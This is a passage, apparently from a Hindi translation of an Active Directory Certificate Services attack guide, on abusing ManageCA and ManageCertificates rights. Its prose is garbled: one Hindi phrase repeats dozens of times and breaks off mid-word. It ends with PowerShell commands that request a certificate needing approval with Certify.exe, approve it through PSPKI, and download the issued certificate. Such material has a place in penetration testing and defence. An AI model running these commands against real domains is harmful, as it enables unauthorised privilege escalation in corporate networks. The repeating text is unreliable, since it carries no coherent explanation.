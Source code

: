 यह मुख्य अधिकारों, अर्थात **`ManageCA`** और **`ManageCertificates`**, के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अधिकारों के अंदर अन्वय करने के लिए प्रमुख अध
```powershell
# Request a certificate that will require an approval
Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded
[...]
[*] CA Response      : The certificate is still pending.
[*] Request ID       : 336
[...]

# Use PSPKI module to approve the request
Import-Module PSPKI
Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest

# Download the certificate
Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336
```
### हमला 2
